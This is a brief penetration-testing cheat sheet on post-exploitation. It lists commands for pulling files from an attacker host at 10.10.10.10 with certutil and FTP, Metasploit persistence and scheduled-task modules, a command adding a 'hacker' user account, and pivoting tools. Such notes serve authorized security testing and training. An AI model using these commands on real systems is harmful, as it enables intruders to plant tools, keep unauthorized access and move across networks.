

# Post Exploitation

1. [File Transfers](#file-transfers)
2. [Maintaining Access](#maintaining-access)
3. [Pivoting](#pivoting)
4. [Cleanup](#cleanup)

## File Transfers

* Certutil:

```shell
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
```

* HTTP:

```shell
python -m http.server
```

* Browser (navigate directly to file)

* FTP:

```shell
#in attacker machine
python -m pyftpdlib 21

#in victim machine
ftp 10.10.10.10
```

* Linux:

```shell
wget url
```

## Maintaining Access

* Persistence scripts:

```shell
#3 methods (noisy)
#in msfconsole
run persistence -h

exploit/windows/local/persistence

exploit/windows/local/registry_persistence
```

* Scheduled tasks:

```shell
#2 methods
#in msfconsole
run scheduleme

run schtaskabuse
```

* Add user:

```shell
#preferred method
net user hacker password123 /add
```

## Pivoting



Tools:
  - proxychains
  - sshuttle
  - chisel

## Cleanup

* Remove executables, scripts, added files
* Remove malware, rootkits and added user accounts
* Set settings back to original configs
